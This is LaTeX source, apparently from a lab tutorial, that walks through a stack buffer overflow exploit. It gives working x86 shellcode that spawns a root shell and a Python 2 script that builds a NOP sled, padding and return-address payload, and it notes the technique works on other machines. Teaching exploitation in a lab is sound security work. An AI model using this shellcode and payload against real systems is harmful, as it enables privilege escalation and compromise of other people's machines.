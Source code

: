 \documentclass[]{project_plan}
\begin{document}
The shellcode is the payload of the exploit. It can perform any desired action,
but it must not contain any null bytes (00) because these would terminate the
string prematurely and prevent the buffer from overflowing.

While achieving root access in this environment is unnecessary since you
are already running as root on Kali Linux, the exploit demonstrates successful
control over the program. The same technique can be applied on other machines
to gain elevated access in real-world scenarios.

Shellcode to Spawn a "dash" Shell:
\begin{lstlisting}
  \x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
\end{lstlisting}
Note; This shellcode is 32 bytes long

There are some imperfections in the debugger, so an exploit that works in gdb
may fail in a real Linux shell. This happens because environment variables and
other details may cause the location of the stack to shift slightly.

A common and effective solution to address this issue is the use of a NOP
Sled. A NOP Sled is a sequence of 90 (No Operation) bytes, which are designed
to ensure the CPU "slides" through them until it reaches the payload.
For this exploit, we will use a 64-byte NOP Sled.

\begin{lstlisting}[language=python]
  #!/usr/bin/python2
  nopsled = '\x90' * 64
  shellcode = (
  '\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
  '\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
  '\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
  )
  padding = 'A' * (112 - 64 - 32)
  eip = '1234'
  print(nopsled + shellcode + padding + eip)
\end{lstlisting}

The second statement assigns 64 \textbackslash x90 (hexadecimal 90) characters
to a variable named nopsled.

The third statement assigns the 32-byte shellcode to a variable named
shellcode. This statement spans multiple lines.

The fourth statement creates a variable named padding that adjusts
the total payload length to 112 bytes.

The fifth statement defines a variable named eip, which contains the
bytes intended to overwrite the \$eip register, represented as '1234'
in this context.
\end{document}
